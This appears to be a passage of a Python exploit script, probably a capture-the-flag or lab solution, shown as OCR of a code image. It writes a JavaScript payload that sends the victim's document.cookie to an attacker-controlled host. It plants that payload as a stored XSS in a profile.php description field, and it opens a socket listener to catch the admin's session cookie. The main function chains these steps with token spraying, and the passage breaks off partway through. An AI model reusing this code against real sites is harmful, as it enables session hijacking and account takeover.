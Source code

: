 ```py
    print("[+] Let's build our JS !!! [+]")
    payload = "function send_cookie(){\n"
    payload += "        var req=new XMLHttpRequest();\n"
    payload += "        req.open('GET', 'http://%s:%s/' + document.cookie, true);\n" %(lhost,lport)
    payload += "        req.send();\n"
    payload += "}\n"
    payload += "send_cookie();"
    f = open("steal.js", "w")
    f.write(payload)
    f.close()
    print("[+] Done ! [+]")
    
# Function to set the xss on the right place
def putXSS(rhost,lhost):
    print("[+] Planting the XSS ! [+]")
    url = "http://%s:80/profile.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"description": "<script src=\"http://%s/steal.js\"></script>" %lhost}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Done ! [+]")
    
# Function to way the xss be triggered and get the token
def getToken(lhost,lport):
    print("[+] Listener on port %s to receive the token ![+]"%lport)
    s = socket.socket()
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((lhost,int(lport)))
    s.listen()
    
    print("[+] Waiting for admin to trigger XSS !!! [+]")
    (sock_c, ip_c) = s.accept()
    get_request = sock_c.recv(4096)
    admin_cookie = get_request.split(b" HTTP")[0][5:].decode("UTF-8")
    print(admin_cookie)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to be changed', required=True)
    parser.add_argument('-li', '--localhost', help='Local Host', required=True)
    parser.add_argument('-lp', '--localport', help='Local Port', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    lhost = args.localhost
    lport = args.localport
    
    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Mount the JS payload
    mountJS(lhost,lport)
    # Get the seed1
    seed1 = getCurrentTime(rhost)
    os.system("sleep 1")
    # Send the token
    sendToken(rhost,username)
    # Get the seed2
    os.system("sleep 1")
    seed2 = getCurrentTime(rhost)
    # Generate the spray payload list
```